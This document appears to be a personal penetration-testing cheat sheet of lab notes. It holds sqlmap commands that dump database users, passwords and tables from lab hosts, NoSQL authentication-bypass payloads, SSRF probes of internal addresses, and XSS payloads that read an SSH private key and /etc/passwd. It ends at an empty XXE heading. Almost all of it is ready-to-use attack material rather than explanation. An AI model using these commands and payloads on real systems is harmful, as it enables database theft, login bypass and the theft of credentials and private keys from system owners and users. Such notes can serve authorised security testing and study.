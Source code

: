 ```
# References
https://www.exploit-db.com/papers/17934
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - THE GOOD ONE
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns 
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords

# NoSQL
' || 'a'=='a
mongodbserver:port/status?text=1

#in URL
username[$ne]=toto&password[$ne]=toto

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

## SSRF

web that send request to external IP's, we call 127.0.0.1:8080 / 10.1.10.111 to enum internal network

chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:3000
GET /ssrf?user=&comment=&link=http://127.0.0.1:3000 HTTP/1.1

Also we can enum ports
```

### XSS

```
<script>alert("XSS")</script>
<script>alert(1)</script>

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html?m=1

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE
```